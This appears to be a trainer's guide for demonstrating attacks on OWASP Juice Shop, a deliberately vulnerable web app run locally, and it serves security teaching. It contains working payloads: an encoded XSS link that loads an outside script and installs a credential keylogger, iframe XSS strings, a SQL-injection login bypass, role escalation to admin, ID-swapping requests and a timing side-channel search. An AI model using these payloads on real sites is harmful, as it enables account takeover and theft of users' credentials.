 ```yaml
---
layout: default
---
```


# Setup :cd:

Configure and run a custom docker-based instance of juice-shop:

```
sudo docker run -ti --init --rm  -p 3000:3000 -p 8080:80 hugopacheco/juice-shop-demo

sudo apt-get -y install python3-pip
pip3 install requests statistics argparse
```

Install [Google Chrome](https://www.google.com/chrome/) and its [WebSpy](https://chrome.google.com/webstore/detail/webspy-explore-and-test-w/aedipmheomnpcbgmanofhaccebgapije?hl=en) extension.

Open the locally-hosted Juice Shop website (http://localhost:3000) with Chrome.

## FAQ :scroll:

* For multiple demos, killing and relaunching the docker container shall reset all progress.
* If the timing delays in the timing attack demo are not noticeable, you may increase the delay in milliseconds for each product search by setting the flag `SEARCH_DELAY` before launching the container, e.g. `export SEARCH_DELAY=100` sets the delay to 100ms. 

# Examples :rocket:

You can demonstrate these in order, or select a few at will.

## Score Board challenge :star:

<details>
<summary>More info</summary>

This challenge serves to explain the structure of web pages and to demonstrate how Juice Shop challenges work:

1. Explain how to use the browser's Developer Tools.
2. Then show how to find the score-board by inspecting the HTML and JavaScript code of the frontpage.
3. You will find the `score-board` as a `path` defined in file `main.js`. Go to the page `http://localhost:3000/#/score-board`.
4. When you solve a Juice Shop challenge, the site will greet you with a green notification.
</details>
<p></p>

## XSS demo :link:

<details>
<summary>More info</summary>

Showcase the XSS demo (more detailed instructions [here](https://pwning.owasp-juice.shop/appendix/trainers.html)):

1. Open the keylogger at (http://localhost:8080/logger.php).
2. Open this [link](http://localhost:3000/#/search?q=%3Cimg%20src%3D%22bha%22%20onError%3D%27javascript%3Aeval%28%60var%20js%3Ddocument.createElement%28%22script%22%29%3Bjs.type%3D%22text%2Fjavascript%22%3Bjs.src%3D%22http%3A%2F%2Flocalhost%3A8080%2Fshake.js%22%3Bdocument.body.appendChild%28js%29%3Bvar%20hash%3Dwindow.location.hash%3Bwindow.location.hash%3D%22%23%2Fsearch%3Fq%3Dowasp%22%3BsearchQuery.value%20%3D%20%22owasp%22%3B%60%29%27%3C%2Fimg%3Eowasp) in a new tab to start the XSS attack. Explain why following malicious links is a very common scenario. Your page will run some malicious JS that plays music and shakes to its sound, while it installs a keylogger.
3. Login as an existing user and see that the credentials are being recorded to the keylogger.
4. Refresh the web page to unload the attack script.
</details>
<p></p>

## Zero Stars challenge :star:

<details>
<summary>More info</summary>

Explain how to use WebSpy (under `Developer Tools > Spy`) to monitor the requests made by the browser to the Juice Shop website. Argue why this is the modus-operandi of many hackers.
Then show how to submit a zero-star review:

1. Do a regular action: posting a new comment in the *Customer Feedback* page.
2. You may check that your comment actually appears in the *About Us* page.
3. Replay a similar request with WebSpy, this time with `rating:0`. 
</details>
<p></p>

## Timing attack demo :hourglass_flowing_sand:

<details>
<summary>More info</summary>

This is a demo on how subtle timing differences may allow us to recover hidden information. This is not an actual Juice Shop challenge, but is inspired by the Christmas Special challenge :star: :star:.

1. Open up WebSpy and find the backend search request. You may notice that, independently of the search query in the frontend, the backend requests is always `/rest/products/search?q=` with an empty query. (Product filtering is happening by default in the JS side.)
2. You can nonetheless replay the request and fill in the `q` argument with your own search term.
3. This is particularly interesting for search terms for which there are **no apparent** products. For example, the Christmas Special challenge invites us to search for an hidden *Christmas special offer of 2014*. We can use WebSpy to search for two different terms such as `christmas` and `personal`; they both return an empty match, but is there a noticeable difference in the time of the request? It does seem so...
4. After all the server may take an arbitrary time to respond. We can further support our suspicions by repeating the same requests multiple times and checking if there is still a significant difference in the average times. Download this Python [script](demo/xs-search.py) to automate the search. Then run the script for our two search terms; you shall get something like this:

```
% python3 xs-search.py christmas
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=False, length=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.03077825400000438
```

```
% python3 xs-search.py personal
Namespace(QUERY='personal', n=10, t='runtime', nextchar=False, length=None, host=['localhost:3000'])
<Response [200]>
{"status":"success","data":[]}
christmas 0.007031379100000438
```

Why does `christmas` take longer than `personal`? Probably because the server is taking more time to compare the search term and prepare the results for products that exist, than for products that do not exist.

5. There does seem to exist some product with the word `christmas` in its name. How can we find its full name? We can start by trying to find the length of the name, not its exact characters. This is possible because the search feature supports a special `_` character wildcard. We just try to append some number of `_` after the word `christmas` (the min and max are adjustable):

```
% python3 xs-search.py christmas --length 30 40
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=False, length=[30, 40], host=['localhost:3000'])
christmas 30 0.029176039000041783
christmas 31 0.02855586099997163
christmas 32 0.02822081399941817
christmas 33 0.029214259500149636
christmas 34 0.029317782500293106
christmas 35 0.006840303499717265
christmas 36 0.006761338000651449
christmas 37 0.00686634499952197
christmas 38 0.006910367999691516
christmas 39 0.006873979499563575
```

You may notice that the timing drops precisely at 35 and onwards. This suggests that our christmas product includes the name `christmas` followed by 35 other characters.

6. Now, how do we find the exact name? An idea is to attempt several characters, and check if there is a measurable time difference. In the script, we are trying characters from `a` to `z` and from `0` to `9`; other special characters are captured by the `_` wildcard. We can repeat this process one character at a time:

```
% python3 xs-search.py christmas -nextchar
Namespace(QUERY='christmas', n=10, t='runtime', nextchar=True, length=None, host=['localhost:3000'])
christmasa 0.008081472499761731
christmasb 0.008309272999875248
...
christmas_ 0.029330530500039458
```

It seems that the `_` wildcard takes longer, hence the next character after `christmas` is neither a letter nor a number. 

```
% python3 xs-search.py christmas_ --nextchar
Namespace(QUERY='christmas_', n=10, t='runtime', nextchar=True, length=None, host=['localhost:3000'])
christmas_a 0.006253162499982864
...
christmas_s 0.029131466499995443
...
christmas__ 0.028724410000257196
```

It seems that `s` takes longer (actually, the same as the `_` wildcard which always matches), hence the word `christmas_s` is in the name of our product.

You can repeat this process 35 times. The name of the actual hidden product is `Christmas Super-Surprise-Box (2014 Edition)`.

</details>
<p></p>

## Confidential Document challenge :star:

<details>
<summary>More info</summary>

1. Check the *About Us* page and follow the linked FTP file (`/ftp/legal.md`).
2. Replay the request with WebSpy to list the parent directory (`/ftp/`).
3. Find the `acquisitions.md` file in the response a get the confidential file (`/ftp/acquisitions.md`)..
</details>
<p></p>

## DOM XSS challenge :star:

<details>
<summary>More info</summary>

1. Paste the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`) in the search field.
2. You will immediately see a XSS popup.
</details>
<p></p>

## Reflected XSS challenge :star: :star:

<details>
<summary>More info</summary>

1. Create some user and login.
2. Order some product (add some product to the basket, checkout, fill out all the payment information and place order), visit the *Order History* page and click *Track Order* on your order.
3. The link of your product's order information will have the structure `/#/track-result/new?id=7cb0-dd30e23740d08c54`
3. Attack the orders search feature by replacing your order id with the JS script from the challenge (`<iframe src="javascript:alert(`xss`)">`). You may need to refresh the page for the script to be actually executed.
</details>
<p></p>

## Admin Registration challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Register a new user and inspect the request/response in WebSpy.
2. Inspect the fields of the response, you shall see a field `role: customer`
3. Replay the request with `role:admin` to register a new user with admin privileges. Make sure to register a new user; registering a repeated user issues an error.
</details>
<p></p>

## Admin Section challenge :star: :star:

<details>
<summary>More info</summary>

1. You need to be logged in as a user with admin privileges (from previous challenge)
2. Find the admin page by inspecting the HTML and JavaScript using the Developer Tools.
3. You will find the `administration` page as a `path` defined in file `main.js`.
</details>
<p></p>

## Forged Review challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Submit a new review for some product, while logged in, and replay it with WebSpy.
2. Try changing the author information (the `author` field in the request is just a string, the user doesn't even need to be valid).
</details>
<p></p>

## Forged Feedback challenge :star: :star: :star:

<details>
<summary>More info</summary>

1. Submit a new comment in the *Customer Feedback* page, while logged in, and replay it with WebSpy.
2. Try changing the user information (changing the `UserId` field to some other random user id, e.g. `1`; the user's name in the comment is just a string unrelated to the actual user id).
</details>
<p></p>

##  View Basket challenge :star: :star:

<details>
<summary>More info</summary>

1. View your basket and replay the request with WebSpy for a different user. You may notice that the user id appears in the request link (`/rest/basket/<id>`).
2. Replay the request with WebSpy for some other user id (e.g., `1`).
</details>
<p></p>

## Login Admin challenge :star: :star:

<details>
<summary>More info</summary>

You can also try to break authentication by demonstrating how SQL injection works:

1. Search for user account name in the *About Us* page. You may notice that there are a few `****@juice-sh.op` accounts.
2. Since we trying to login as special user named admin, a good guess is to assume that his account name will be `admin@juice-sh.op`.
3. Go to the login page and demonstrate the SQL injection by typing `admin@juice-sh.op' --` in the `username` field and anything in the `password` field.
4. You may confirm that this user actually has administrator privileges by going to the `/#/administration` page.
</details>
<p></p>



